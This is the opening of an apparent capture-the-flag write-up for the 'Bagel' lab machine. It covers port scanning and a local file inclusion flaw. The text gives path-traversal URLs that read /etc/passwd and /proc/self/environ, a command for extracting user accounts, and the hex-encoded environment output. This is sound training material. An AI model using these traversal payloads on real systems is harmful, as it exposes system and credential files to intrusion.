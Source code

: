 
## Note:
Throughout this writeup it will be assumed that you have added bagel.htb to your /etc/hosts file. For more information on how to do this refer to [this](/useful/hostsfile) resource.

# nmap

Running nmap on the target reveals 3 open ports:
- Port 22 (SSH)
- Port 5000 (running a custom service)
- Port 8000 (running a flask HTTP server)

(The whole nmap scan is huge, it can be accessed [here](/writeups/Bagel/nmap.txt))

# Port 8000

Port 8000 takes us to a website with a lovely picture of a bagel on it. It also had a rather suspicious looking URL:

`http://bagel.htb/?page=index.html`

As a good rule in CTFs, anything with ?page= or the like is usually some form of Local File Inclusion (LFI) vulnerability. In this instance it was a particularly simple LFI with the classic ../ schema working.

To test LFI, /etc/passwd is always a good start

`http://bagel.htb/?page=../../../../../../../../etc/passwd`

This returned the passwd file of the server giving us some users. Using this following command we can extract all users with logons, these are the users we most likely need to target:

```bash
grep -i "/bin/bash" passwd | awk -F ":" '{print $1}' | sort > users.txt 
```

I then decided to see if the webserver was running as any of these users so I pulled the environment variables with this payload:

`http://bagel.htb/?page=../../../../../../../../proc/self/environ`

Which gave us this file:

environ:
```
4c41 4e47 3d65 6e5f 5553 2e55 5446 2d38
0050 4154 483d 2f75 7372 2f6c 6f63 616c
2f73 6269 6e3a 2f75 7372 2f6c 6f63 616c
2f62 696e 3a2f 7573 722f 7362 696e 3a2f
7573 722f 6269 6e00 484f 4d45 3d2f 686f
6d65 2f64 6576 656c 6f70 6572 004c 4f47
4e41 4d45 3d64 6576 656c 6f70 6572 0055
5345 523d 6465 7665 6c6f 7065 7200 5348
454c 4c3d 2f62 696e 2f62 6173 6800 494e
564f 4341 5449 4f4e 5f49 443d 3562 3165
6633 3038 3735 3431 3430 3138 6163 3066
3638 6139 6230 3230 6463 3863 004a 4f55
524e 414c 5f53 5452 4541 4d3d 383a 3235
3638 3600 5359 5354 454d 445f 4558 4543
5f50 4944 3d38 3931 00
```
